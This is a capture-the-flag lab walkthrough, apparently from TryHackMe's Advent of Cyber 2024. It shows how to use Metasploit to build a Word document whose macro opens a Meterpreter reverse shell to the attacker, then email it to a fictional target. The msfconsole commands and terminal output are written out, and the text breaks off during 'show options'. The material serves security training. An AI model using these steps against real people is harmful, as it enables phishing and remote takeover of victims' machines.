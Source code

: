 In his plans, Mayor Malware needs to create a document with a malicious macro. Upon opening the document, the macro will execute a payload and connect to the Mayor’s machine, giving him remote control. Consequently, the Mayor needs to ensure that he is listening for incoming connections on his machine before emailing the malicious document to Marta May Ware. By executing the macro, the Mayor gains remote access to Marta’s system through a reverse shell, allowing him to execute commands and control her machine remotely. The steps are as follows:

1. Create a document with a malicious macro
2. Start listening for incoming connections on the attacker’s system
3. Email the document and wait for the target user to open it
4. The target user opens the document and connects to the attacker’s system
5. Control the target user’s system

You might wonder why you don’t set the malicious macro so that you can connect to the target system directly instead of the other way around. The reason is that when the target system is behind a firewall or has a private IP address, you cannot reach it and, hence, cannot connect to it.

## Attacker’s System

On the AttackBox, you need to carry out two steps:

- Create a document with an embedded malicious macro
- Listen for incoming connections

## Creating the Malicious Document

The first step would be to embed a malicious macro within the document. Alternatively, you can use the Metasploit Framework to create such a document, as this would spare us the need for a system with MS Office.

You will use the Metasploit Framework to create the document with the malicious macro. This requires the following commands:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `set payload windows/meterpreter/reverse_tcp` specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell  
    
- `use exploit/multi/fileformat/office_word_macro` specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
- `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system, `CONNECTION_IP` in this case is the IP of the AttackBox
- `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
- `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
- `exploit` generates a macro and embeds it in a document
- `exit` to quit and return to the terminal

In the terminal below, you can see the execution of the above steps.

```
┌──(kali㉿kali)-[/mnt/hgfs/tmp/tryhackme/adventofcyber2024]
└─$ msfconsole -q                                                                        
msf6 > use exploit/multi/fileformat/office_word_macro
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/office_word_macro) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/office_word_macro) > set lhost 10.2.111.254
lhost => 10.2.111.254
msf6 exploit(multi/fileformat/office_word_macro) > set lport 8888
lport => 8888
msf6 exploit(multi/fileformat/office_word_macro) > show options 

Module options (exploit/multi/fileformat/office_word_macro):

   Name            Current Setting                                                                Required  Description
```
